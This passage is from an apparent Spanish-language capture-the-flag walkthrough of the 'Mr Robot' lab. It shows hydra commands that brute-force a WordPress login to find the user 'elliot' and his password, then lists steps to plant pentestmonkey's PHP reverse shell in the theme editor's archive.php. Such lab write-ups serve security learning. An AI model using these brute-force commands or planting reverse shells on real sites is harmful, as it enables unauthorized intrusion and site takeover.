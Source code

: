 Ya tenemos los campos identificados, ahora si vamos a realizar nuestro primer ataque de fuerza bruta para detectar que usuarios son válidos en el login.

```bash
❯ hydra -L sortfsocity.dic -p test 10.10.235.157 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 64
[80][http-post-form] host: 10.10.235.157   login: elliot   password: test
```

<p align="center">  
 <img src="/assets/images/mrrobot/04hydra1.png">    
</p>  

¡Tenemos un usuario valido! Podemos ver que `elliot` es un usuario existente en este login.

Ahora intentaremos identificar la contraseña de este usuario para finalmente acceder al panel principal.

```bash
❯ hydra -l elliot -P sortfsocity.dic 10.10.235.157 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 64
[80][http-post-form] host: 10.10.235.157   login: elliot   password: ER28-0652
```

<p align="center">  
 <img src="/assets/images/mrrobot/05hydra2.png">     
</p>

Ya tenemos credenciales válidas para poder acceder al portal principal de esta web.

En este momento contamos con los permisos para editar archivos php en esta sesión, por lo que vamos a realizar los siguientes pasos:

* Ir al panel izquierdo, opción `apperance`.
* Click en la opción `editor`.
* En el panel derecho, click en `archive.php`.
* Copiamos la [php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) y la pegamos en el panel central.
* Cambiamos la `IP` y `Puerto`.
* Guardamos cambios.
